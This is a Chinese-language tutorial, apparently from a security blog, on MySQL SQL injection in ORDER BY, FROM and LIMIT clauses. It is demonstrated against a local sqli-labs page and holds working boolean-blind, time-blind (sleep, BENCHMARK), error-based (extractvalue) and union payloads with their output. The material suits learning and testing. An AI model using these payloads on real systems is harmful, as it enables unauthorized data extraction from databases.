 # 0x00 order by 注入

这是一种特殊的注入 sql语句为 `select * from admin order by $id`  我们一般用order by 来判断他的列数，其实他就是一个依照第几个列来排序的过程。

order by注入是不能 直接使用`and 1=1` 来判断的，他需要用到条件语句。 

```
mysql> select * from admin order by id;
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    1 | cdmin    | bdmin    |
|    2 | admin    | ddmin    |
|    3 | bdmin    | fdmin    |
+------+----------+----------+
3 rows in set (0.00 sec)

mysql> select * from admin order by username;
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    2 | admin    | ddmin    |
|    3 | bdmin    | fdmin    |
|    1 | cdmin    | bdmin    |
+------+----------+----------+
3 rows in set (0.00 sec)

```


### 盲注


1. 布尔

简单的判断

```
mysql> select * from admin order by if(1=1,username,password);
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    2 | admin    | ddmin    |
|    3 | bdmin    | fdmin    |
|    1 | cdmin    | bdmin    |
+------+----------+----------+
3 rows in set (0.00 sec)

mysql> select * from admin order by if(1=3,username,password);
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    1 | cdmin    | bdmin    |
|    2 | admin    | ddmin    |
|    3 | bdmin    | fdmin    |
+------+----------+----------+
3 rows in set (0.00 sec)

```


简单的注入

```
mysql> select * from admin order by if((substr((select user()),1,1)='r1'),username,password);
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    1 | cdmin    | bdmin    |
|    2 | admin    | ddmin    |
|    3 | bdmin    | fdmin    |
+------+----------+----------+
3 rows in set (0.00 sec)

mysql> select * from admin order by if((substr((select user()),1,1)='r'),username,password);
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    2 | admin    | ddmin    |
|    3 | bdmin    | fdmin    |
|    1 | cdmin    | bdmin    |
+------+----------+----------+
3 rows in set (0.00 sec)


http://127.0.0.1/sqli/Less-46/?sort=if((substr((select user()),1,1)='r'),username,password)

```


2. 时间盲注

时间盲注不能直接简单的`sleep()` 因为他会对每条内容来执行你的语句，所以会造成dos测试获取速度慢等问题，这时候我们需要用到子查询

```
mysql> select * from admin order by if((substr((select user()),1,1)='r'),sleep(5),password);
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    3 | bdmin    | fdmin    |
|    2 | admin    | ddmin    |
|    1 | cdmin    | bdmin    |
+------+----------+----------+
3 rows in set (15.01 sec)

```

我们写一条简单的子查询试试

```
mysql> select * from admin order by if((substr((select user()),1,1)='r'),(select 1 from (select sleep(2)) as b),password);
+------+----------+----------+
| id   | username | password |
+------+----------+----------+
|    3 | bdmin    | fdmin    |
|    2 | admin    | ddmin    |
|    1 | cdmin    | bdmin    |
+------+----------+----------+
3 rows in set (2.01 sec)

```



### 报错注入

```
http://127.0.0.1/sqli/Less-46/?sort=(extractvalue(1,concat(0x3a,version())),1)

mysql> select * from admin order by (extractvalue(1,concat(0x3a,version())),1);
ERROR 1105 (HY000): XPATH syntax error: ':5.5.53'

```


# 0x01 From 

from 后面的注入比较少 还是提一下

```
select * from $id;

```

1. 可以结合 order by 来注入

2. 可以使用联合注入来注入

```
mysql> select * from admin union select 1,user(),3;
+------+----------------+----------+
| id   | username       | password |
+------+----------------+----------+
|    3 | bdmin          | fdmin    |
|    2 | admin          | ddmin    |
|    1 | cdmin          | bdmin    |
|    1 | root@localhost | 3        |
+------+----------------+----------+
4 rows in set (0.02 sec)

```

方法跟普通注入一样的一样自己加上表名



# 0x02 limit


这种注入也不是很常见，依照 https://rateip.com/blog/sql-injections-in-mysql-limit-clause/ 来提一下


```
mysql> select * from admin where id >0 limit 0,1 $id

```

如何利用呢 大佬们已经给出方法了 用 `PROCEDURE ANALYSE` 配合报错注入,所以多看文档，如果你想提升下自己的水平


```
mysql> select * from admin where id >0 order by id limit 0,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1);
ERROR 1105 (HY000): XPATH syntax error: ':5.5.53'
ERROR:
No query specified

```


这里延时只能使用`BENCHMARK()` 如同 

```
select * from admin where id >0 order by id limit 0,1 PROCEDURE analyse(extractvalue(rand(),concat(0x3a,(if(1=1,benchmark(2000000,md5(404)),1)))),1);

```



# 0x03 文末

#### 本文如有错误，请及时提醒，避免误导他人 

* author：404